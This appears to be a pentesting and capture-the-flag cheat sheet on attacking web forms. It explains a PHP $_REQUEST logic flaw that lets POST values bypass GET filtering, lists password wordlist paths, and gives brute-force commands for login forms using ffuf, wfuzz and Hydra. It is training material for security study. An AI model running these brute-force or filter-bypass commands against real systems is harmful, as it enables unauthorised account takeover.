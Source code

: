 # Bruteforce forms, and other vulnerabilities

<div class="row row-cols-md-2"><div>

There are two kinds of forms: **GET forms**, in which the parameters of the form are stored within the URL, and anyone opening the URL, will see the form filled with the same input. For instance, a search engine such as Google has a parameter `q` (query) in which the search I made `(hello world)` was stored in.

```
https://www.google.com/search?q=hello+world
https://www.google.com/search?q=hello%20world
```

Search are URL-encoded as a URL is a long suite of characters with no spaces, for instance, space would be either `%20`, or `+`.
</div><div>

Then, we have **POST forms**. They are mostly used for logins/... Once the user submit data, then its encoded, and sent to the server. Even if we have the same URL, the page will be empty for us.

```
https://example.com/login.php
```

The common point between the two are that the data transferred is looking like this: `username=toto&password=toto`, and in both, it's URL-encoded.
</div></div>

> **Note**: BurpSuite can be used too, see the Intruder tab.<br>

<hr class="sl">

## Logic Flaw

[![authenticationbypass](../../../_badges/thmp/authenticationbypass.svg)](https://tryhackme.com/room/authenticationbypass)

<div class="row row-cols-md-2"><div>

In PHP, there is a variable `$_POST` to fetch the input fields send to the server using POST, and `$_GET` for input fields send using GET. There is another prefilled variable: `$_REQUEST` which contains both values in `$_GET`, and values in `$_POST`. 

If a value is both in `$_POST`, AND `$_GET`, then ONLY the value in `$_POST` will be kept. This is worth mentioning, because

* a developer might use `$_REQUEST` for a GET form, instead of `$_GET`. In such case, we may be able to inject data using POST, so that even if the data send using GET is filtered, we may bypass these filters.

```bash
$ curl 'URL?param=value' -d 'param=not_filtered'
# the dev filter $_GET: filterXXX($_GET)
# but in $_REQUEST['param'], there will be
# our value 'not_filtered'
```
</div><div>

* it's possible that a developer is using a GET form, then a POST form. In such scenario, the (lazy?) developer may use `$_REQUEST` to fetch values. If the dev checked the data at step1, but not at step2, we may be able to bypass the check in step1.

```bash
$ curl 'URL/step1?param=verified'
# the dev ensure param is verified
# verify_or_reject_param($_GET)
# now, the dev may "trust" param to be valid
$ curl 'URL/step2?param=verified' -d 'xxx=yyy&param=unverified'
# the dev filter $_POST: filterXXX($_POST)
# the dev uses $_REQUEST['param']
# but, it's our unverified value that is used
```
</div></div>

<hr class="sr">

## Wordlists

<div class="row row-cols-md-2"><div>

* package wordlist

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

</div><div>

* package seclists 📌

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>

> CTF are usually using `/usr/share/wordlists/rockyou.txt`, and a manually created list of usernames if needed.

<hr class="sl">

## Bruteforce using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ ffuf -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ ffuf -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ ffuf -w wordlist1:W1,wordlist2:W2 -X POST -d "username=W1&password=W2" -u URL
```
</div></div>

<hr class="sr">

## Bruteforce using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sl">

## Bruteforce authentication forms using Hydra

<div class="row row-cols-md-2"><div>

Hydra is mostly used to bruteforce services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will bruteforce is something like this</p>

```none
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, on by one
* Consider comme failures (`-F`) any web page that returns the word "incorrect"

You should check the [bruteforce services](../../../random/crack_password/bruteforce.md) page to learn more about Hydra.
</div></div>